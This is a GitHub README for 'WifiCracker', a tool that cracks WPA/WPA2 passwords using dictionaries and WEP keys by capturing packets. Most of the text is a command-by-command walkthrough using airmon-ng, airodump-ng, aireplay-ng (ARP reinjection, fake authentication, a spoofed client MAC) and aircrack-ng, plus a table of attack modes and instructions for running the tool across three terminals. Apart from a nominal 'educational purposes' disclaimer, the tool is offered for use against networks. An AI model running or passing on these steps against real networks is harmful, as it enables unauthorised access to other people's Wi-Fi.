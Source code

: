 <b>WifiCracker</b>


[![WifiCracker logo](https://s30.postimg.org/47hlfpgsh/2008_11_06_wifi.jpg)](#)<br><br>

<b>Disclaimer: I don't take any responsabilities over the use of this application, it's just for educational purposes</b>

Program works with WPA/WPA2 protocol using PSK authentication, for this option Dictionaries are needed for brute forcing. Also you can use the program with WEP Wifi's protocol, for this option you don't need any dictionary

Remember you need to install 'aircrack-ng' and 'macchanger':

| Program  | command |
| ------------- | ------------- |
| **aircrack-ng**  | sudo apt-get install aircrack-ng  |
| **macchanger**  | sudo apt-get install macchanger  |

Mediafire links for dictionaries: [Dictionaries](https://mega.nz/#F!PB0ljZwC!H1CdY80f0mrTS4AdUm3BZw)

**WEP Protocol**

To capture a **WEP** Wifi password you have to do the following steps:

Step 1: The first step you have to do is active the **monitor mode**, same as WPA/WPA2 protocol

```airmon-ng start wlp2s0 or airmon-ng start wlan0```

Step 2: Execute airodump-ng to save the IV packages (packages where the password travels)

```airodump-ng -w datos wlp2s0 or airodump-ng -w datos wlan0```

where '-w datos' indicates the file name where data will be saved

Each access point works in a channel (CH). To improve the attack, you can use '-c (CH)' to filter only AP data.

For example:

```airodump-ng --ivs -w datos -c 11 wlp2s0 or airodump-ng --ivs -w datos -c 11 wlan0```

Step 3: Now we just need to accelerate the capture IV's process through the injected traffic from the attacker's computer. To do this you will use the authenticated and associated client in the next step. Let capture an ARP-request packet, and then reinjected into the network to dramatically increase the number of IVs packets.

```aireplay-ng -3 -b MAC_AP -h MAC_FALSO_CLIENTE -x 600 wlp2s0 or aireplay-ng -3 -b MAC_AP -h MAC_FALSO_CLIENTE -x 600 wlan0```

where '-3' indicates attack type and '-x 600' allow us to indicates the speed of the reinjected packages.

Step 4: To inject packets you are going to authenticate and associate with a fictitious network client.

```aireplay-ng -1 10 -e NOMBREWIFI -a MAC_AP -h MAC_FALSO_CLIENTE wlp2s0```

where '-1 10' indicates you are goint to send 10 authentication packages, '-a MAC_AP' indicates the MAC point acces adress and '-h MAC_FALSO_CLIENTE' indicates a fake MAC adress.

Last Step: Now you can execute on another console **aircrack-ng** to analyze the IV's packages obtained by **airodump-ng** and stored in **datos-01.ivs** file.

```aircrack-ng -0 datos-01.ivs```

The process can take about 10 minutes to WEP 64-bit passwords and 20 minutes for 128-bit WEP passwords. If you want to speed up the process you can indicate the length of the WEP password as follows:

```aircrack-ng -0 -n 64 datos-01.ivs```

where '-n 64' indicates for example the length of WEP password.

When aircrack-ng ends, he show us the WEP password on screen.

Here you have a table for 'aireplay-ng' options

| Attack  | Function |
| ------------- | ------------- |
| **0**  | De-authentication  |
| **1**  | Fake authentication  |
| **2**  | Interactive selection of packages to send  |
| **3**  | ARP-request reinjection  |
| **4**  | Chopchop attack |
| **5**  | Fragmentation attack |
| **6**  | Caffe-late attack |
| **7**  | Fragmentation Attack (customer oriented) |
| **8**  | WPA Migration Mode |
| **9**  | Injection test |

---------------------------------------------------------------------------------------------------------------------------

All the process has to be done from 3 terminals. First you have to choose option 1, and then monitor interface is enabled. After that, you choose option 4 and after targetting a Wifi, you have to open a new terminal. Then execute the program again and (with Terminal 1 running) choose option 5 in Terminal 2. You have to wait 1 minute in option 5, and then press Ctrl+C. After that, open a new terminal and choose option 7 from Terminal 3 for finishing. If option 7 doesn't work, try again... that's because you need the user reconnects to the network.

That's the error you could have

![Little Mistake](imgs/error.png)

Otherwise, routter password appears

![Working Good](imgs/funciona.png)

For option 6, you make a fake auth client. Sometimes, there are no clients connected to the network, so you have to create one tricking the routter. You can use your own mac to make fake authentications.

Here you can see there are some clients connected, but particulary... i want to authenticate the client whose MAC adress is C8:38:70:59:31:4B:

![Unassociated](imgs/Unassociated.png)

So doing option 6 look what happens with C8:38:70:59:31:4B, now it's connected to the network and you can start doing option 5 with this client:

![Unassociated](imgs/Associated.png)
